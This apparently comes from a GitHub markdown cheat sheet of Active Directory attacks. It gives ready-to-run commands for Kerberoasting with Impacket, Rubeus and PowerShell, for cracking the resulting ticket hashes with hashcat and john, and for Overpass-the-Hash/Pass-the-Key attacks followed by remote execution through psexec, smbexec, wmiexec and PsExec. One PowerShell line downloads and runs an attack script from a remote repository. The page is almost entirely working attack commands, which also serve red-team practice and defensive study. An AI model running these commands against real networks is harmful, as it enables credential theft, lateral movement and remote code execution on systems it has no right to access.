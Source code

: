 
## Kerberoasting

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:
```shell
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```


With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

With **Powershell**:
```
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

Cracking with dictionary of passwords:
```shell
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```


## Overpass The Hash/Pass The Key (PTK)

By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Request the TGT with hash
impacket-getTGT <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
impacket-getTGT <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
impacket-getTGT <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
impacket-psexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
impacket-smbexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
impacket-wmiexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```
